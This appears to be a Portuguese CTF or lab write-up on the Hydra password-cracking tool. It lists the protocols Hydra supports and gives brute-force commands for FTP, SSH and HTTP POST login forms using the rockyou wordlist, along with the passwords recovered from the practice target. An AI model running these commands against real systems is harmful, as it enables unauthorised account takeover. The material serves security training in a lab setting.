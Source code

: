 # _**Contexto de Brute force**_
<mark>Hydra</mark> é um programa de quebra de senhas online por força bruta; uma ferramenta rápida para "hackear" senhas de login em sistemas  
Podemos usar o Hydra para percorrer uma lista e aplicar "força bruta" em algum serviço de autenticação  
Imagine tentar adivinhar manualmente a senha de alguém em um serviço específico (SSH, Formulário de Aplicativo Web, FTP ou SNMP) - podemos usar o Hydra para percorrer uma lista de senhas e acelerar esse processo, determinando a senha correta  

Hydra tem a capacidade de força bruta nos seguintes protocolos: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 e v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC e XMPP  

Isso mostra a importância de usar uma senha forte  
Se sua senha for comum, não contiver caracteres especiais e/ou não tiver mais de 8 caracteres, ela estará sujeita a ser adivinhada  
Existem 100 milhões de listas de senhas contendo senhas comuns, então, quando um aplicativo pronto para uso usa uma senha fácil para fazer login, certifique-se de alterá-la do padrão!  

***

**Utilizando Hydra**
As opções que passamos para o Hydra dependem do serviço (protocolo) que estamos atacando  
Por exemplo, se quiséssemos usar o FTP por força bruta com o nome de usuário sendo _user_ e a lista de senhas sendo _passlist.txt_, usaríamos o seguinte comando:
> ```bash
> hydra -l user -P passlist.txt ftp://[ip_address]
> ```

***

**Post web-form**
Também podemos usar o Hydra para forçar formulários web  
Você precisará saber qual tipo de solicitação ele está fazendo – normalmente, são usados ​​métodos GET ou POST  
Você pode usar a guia de rede do seu navegador (nas ferramentas do desenvolvedor) para ver os tipos de solicitação ou simplesmente visualizar o código-fonte  
Exemplo:
> ```bash
> hydra -l [username] -P [password list] [ip] http-post-form "/[login url]:username=^USER^&password=^PASS^:F=incorrect" -V
> ```

# _**Execução**_
Realizando brute-force com o Hydra no serviço SSH
> ```bash
> hydra -l molly -P ../wordlists/rockyou.txt [ip_address] -t 4 ssh
> ```

**senha:** butterfly
```cat flag2.txt``` para buscar a flag  

Realizando brute-force com o Hydra no serviço HTTP
> ```bash
> hydra -l molly -P ../wordlists/rockyou.txt [ip_address] http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
> ```

**Senha descoberta** = sunshine
